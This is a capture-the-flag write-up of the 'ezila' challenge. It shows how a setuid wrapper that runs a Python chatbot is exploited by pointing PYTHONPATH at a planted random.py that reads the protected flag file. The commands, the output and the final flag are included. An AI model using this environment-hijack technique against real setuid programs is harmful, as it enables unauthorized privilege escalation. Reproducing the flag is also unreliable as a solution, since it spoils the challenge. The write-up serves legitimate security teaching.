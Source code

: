 # **Writeup - HackPackCTF**

* Category **Misc**
* Name **ezila**
* Difficulty **Easy**


## Description

BigCorp is going all in on the LLM chat-based AI craze and will soon be publicly releasing EZILA, their very own flag-protection chatbot.\n\nFor the moment, access is limited to beta testers who will use terminal shell access to invoke EZILA and make sure she will properly defend the flag.

nc cha.hackpack.club 41701

## **Solution**

you get access to a shell on a remote machine, there's a file called flag.txt in the directory `/app`, but your user has limited privileges and can't read it.

On the other hand you also have access to a setuid binary called run-ezila that runs the ezila chatbot

```
ctfuser@5642f30325fc:/app$ ls -lah
total 64K
drwxrwxr-x 1 root  root  4.0K Apr 13 02:38 .
drwxr-xr-x 1 root  root  4.0K Apr 16 14:56 ..
-rw-rw-r-- 1 ezila ezila  187 Apr 13 02:20 CREDITS.txt
-rwxr-x--- 1 ezila ezila 7.7K Apr 13 02:20 ezila.py
-r-------- 1 ezila ezila   53 Apr 13 02:37 flag.txt
-rwsr-xr-x 1 ezila ezila  17K Apr 13 02:38 run-ezila
-r-------- 1 ezila ezila  14K Apr 13 02:20 script.txt
```

apparently the permissions needed to read the flag are the same needed to read the script, so if you could get ezila to read the wrong file the challenge would be over.

let's try overriding the libraries used by python using `PYTHONPATH`, hoping the suid executable doesn't sanitize the environment before executing python,

replacing `random` with my code looks like a good idea because ezila doesn't seem to answer in a fully predictable way, so it's probably making use of random numbers

```
ctfuser@5642f30325fc:/app$ export PYTHONPATH=/tmp
ctfuser@5642f30325fc:/app$ cat <<EOF > /tmp/random.py                   
> f = open("flag.txt", "r")
> print(f.read())
> f.close()
> EOF
ctfuser@5642f30325fc:/app$ ./run-ezila 
running /app/ezila.py as uid=1000 (euid=1001)
flag{n3v3r_7ru57_a_ch@7b07_t0_cl3@n_th3_3nv1r0nm3n7}

Traceback (most recent call last):
  File "/app/ezila.py", line 237, in <module>
    main()
  File "/app/ezila.py", line 233, in main
    eliza.run()
  File "/app/ezila.py", line 216, in run
    print(self.initial())
          ^^^^^^^^^^^^^^
  File "/app/ezila.py", line 210, in initial
    return random.choice(self.initials)
           ^^^^^^^^^^^^^
AttributeError: module 'random' has no attribute 'choice'
```

here it is the flag,

remember kids, always clean the environment before escalating privileges

flag: `flag{n3v3r_7ru57_a_ch@7b07_t0_cl3@n_th3_3nv1r0nm3n7}`